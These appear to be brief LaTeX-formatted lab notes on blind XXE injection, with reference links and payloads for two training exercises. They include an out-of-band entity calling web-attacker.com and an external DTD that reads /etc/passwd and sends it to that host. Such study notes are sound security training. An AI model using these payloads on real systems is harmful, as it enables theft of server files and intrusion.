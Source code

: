 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{quote}
\url{https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity}\strut \\
\url{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE\%20Injection}
\end{quote}

\subsection{Labs}\label{labs-5}

\subsubsection{1. Blind XXE with out-of-band interaction via XML
parameter
entities}\label{1-blind-xxe-with-out-of-band-interaction-via-xml-parameter-entities}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
\end{Verbatim}

\subsubsection{2. Exploiting blind XXE to exfiltrate data using a
malicious external
DTD}\label{2-exploiting-blind-xxe-to-exfiltrate-data-using-a-malicious-external-dtd}

\begin{quote}
Observe Submit feedback, paste xml file with the next content:
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
\end{Verbatim}

\begin{quote}
Check /product/stock page and paste the next XXE payload:
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<!DOCTYPE stockcheck [<!ENTITY % io7ju SYSTEM "http://localhost:44901/feedback/screenshots/7.xml">%io7ju; ]>
\end{Verbatim}
\end{document}
